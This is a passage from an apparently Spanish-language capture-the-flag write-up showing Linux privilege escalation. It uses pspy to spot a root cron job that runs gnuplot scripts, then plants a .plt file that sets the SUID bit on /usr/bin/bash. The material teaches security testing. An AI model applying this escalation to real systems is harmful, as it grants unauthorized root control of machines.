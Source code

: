 - [gnuplot-RCE](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/)

pero no podemos ejecutar el script .plt , ni mucho menos ver los recursos del directorio `/opt/gnuplot`
tal vez tengamos que esperar un proceso que haga eso por nosotros.
en el momento que estaba haciendo la máquina el `pspy64` estaba en mi directorio personal
parece que alguien ya hizo eso, y si no fuera el caso solo es clonarlo y compilargo en GO

### que es pspy

`Con PSPY podemos monitorizar los procesos de un equipo Linux y por lo tanto, obtener comandos ejecutados por otros usuarios, cron jobs, o argumentos pasados a determinados scripts que nos puede ser de utilidad`

después de esperar un par de minutos logro ver que si hay una tarea que ejecuta los archivos de
la carpeta de interés `/opt/gnuplot`, y como es el usuario root, vamos a poder colar un comando

```bash
2023/11/04 02:31:35 CMD: UID=0     PID=2      | 
2023/11/04 02:31:35 CMD: UID=0     PID=1      | /sbin/init 
2023/11/04 02:32:01 CMD: UID=0     PID=30814  | /usr/sbin/CRON -f 
2023/11/04 02:32:01 CMD: UID=0     PID=30813  | /usr/sbin/CRON -f 
2023/11/04 02:32:01 CMD: UID=0     PID=30816  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 02:32:01 CMD: UID=0     PID=30815  | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/04 02:32:01 CMD: UID=0     PID=30820  | cut -d   -f3,7 
2023/11/04 02:32:01 CMD: UID=0     PID=30819  | 
2023/11/04 02:32:01 CMD: UID=0     PID=30818  | 
2023/11/04 02:32:01 CMD: UID=0     PID=30825  | /usr/sbin/CRON -f 
2023/11/04 02:32:01 CMD: UID=0     PID=30824  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 02:32:01 CMD: UID=0     PID=30823  | /bin/sh /opt/gnuplot/getdata.sh
2023/11/04 02:32:01 CMD: UID=0     PID=30820  | cut -d   -f3,7 
2023/11/04 02:32:01 CMD: UID=0     PID=30819  | 
2023/11/04 02:32:01 CMD: UID=0     PID=30818  | 
2023/11/04 02:32:01 CMD: UID=0     PID=30825  | /usr/sbin/CRON -f 
2023/11/04 02:32:01 CMD: UID=0     PID=30824  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 02:32:01 CMD: UID=0     PID=30823  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 02:32:01 CMD: UID=0     PID=30822  | grep -o load average:.*$ 
2023/11/04 02:32:01 CMD: UID=0     PID=30821  | uptime 
2023/11/04 02:32:01 CMD: UID=0     PID=30826  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/04 02:32:01 CMD: UID=0     PID=30827  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/04 02:32:01 CMD: UID=0     PID=30828  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 02:32:01 CMD: UID=0     PID=30829  | /bin/sh /opt/gnuplot/getdata.sh
```
{: .nolineno}

ahora solo queda hacer el ataque, creo un archivo con la extension .plt y lo guardo en la ruta `/opt/gnuplot`

```bash
cd /dev/shm
echo 'system "chmod u+s /usr/bin/bash"' > pepito.plt
cp pepito.plt /opt/gnuplot

```
{: .nolineno}
